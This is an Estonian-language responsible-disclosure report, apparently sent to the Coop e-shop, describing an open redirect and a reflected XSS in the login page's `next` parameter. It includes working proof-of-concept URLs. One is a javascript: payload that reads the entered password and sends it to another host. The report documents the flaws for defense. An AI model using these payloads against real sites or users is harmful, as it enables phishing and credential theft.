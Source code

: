 Aadressi vaadates märgati, et `next` parameeter sisaldab URI segmenti ja on ilmselt haavatav [open redirect](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.md) turvaveale: `next` parameetri väärtus on muudetav ning võib näidata suvalisele URL-ile - mispeale rakendus ka peale sisselogimist sinna suunab.

 

**PoC:** `https://ecoop.ee/et/logisisse/?next=%2F%2Fneti.ee` (peale sisselogimist suunatakse ümber neti.ee veebilehele)

**Probleem:** rakendus ei valideeri `next` parameetri väärtust ning suunab ka välistele domeenidele.

**Väärkasutus (näide #1):** Kliendile saadetakse link stiilis `https://ecoop.ee/et/logisisse/?next=%2F%2Fekoop.ee%2Fet%2Flogisisse`; näiteks phishing-uudiskirjaga. Kirjas olev link on õigele domeenile, ning klient usaldab seda. Peale sisselogimist suunab süsteem aga edasi phishing veebilehele, mis asub hoopis teisel domeenil, ning väidab, et sisselogimine ebaõnnestus, palun sisestada parool uuesti. Klient ei märka domeeni muutust, ning annab kolmandale osapoolele oma parooli.

**Kaitse:** `https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.md#preventing-unvalidated-redirects-and-forwards`

**Kriitilisus:** Madal


## Reflected XSS via GET URI
 

Kasutades sama `next` URL parameetrit sisselogimislehel, on võimalik ecoop keskkonnas käivitada JavaScript koodi. See on nn "Reflected XSS" haavatavus.


**Probleem:** Rakendus käivitab next parameetri väärtust kui JavaScript koodi, kasutaja browseri kontekstis - XSS

**PoC:** `https://ecoop.ee/et/logisisse/?next=javascript:window.location.href%3D%27%2F%2Flocalhost%2F%27%2Bdocument.getElementById(%27tfid-84-1%27).value` (peale sisselogimist suunatakse ümber teisele domeenile localhost, kusjuures kliendi parool on tekstina URL-is)

**Väärkasutus (näide #1):** Kliendile saadetakse phishing kirjaga link Coop e-poodi. Kirjas olev link on õigele domeenile, ning klient usaldab seda. Link viib sisselogimislehele. Kui klient vajutab "Logi sisse", käivitub `next` parameetris olev JavaScript kood, mis võtab kliendi poolt täidetud parooli väljast (enne ümbersuunnamist!) parooli väärtuse, ning saadab selle kolmandale osapoolele, kompromiteerides nõnda kliendi sisselogimisandmed.

**Kaitse:** `https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)`

**Kriitilisus:** Keskmine


Palun vastust, kinnitamaks raporti kättesaamist ning võimalusel ka indikatiivset aega, millal mainitud vead parandatakse (tüüpiliselt parandatakse turvavead maksimaalselt 90 päeva jooksul).
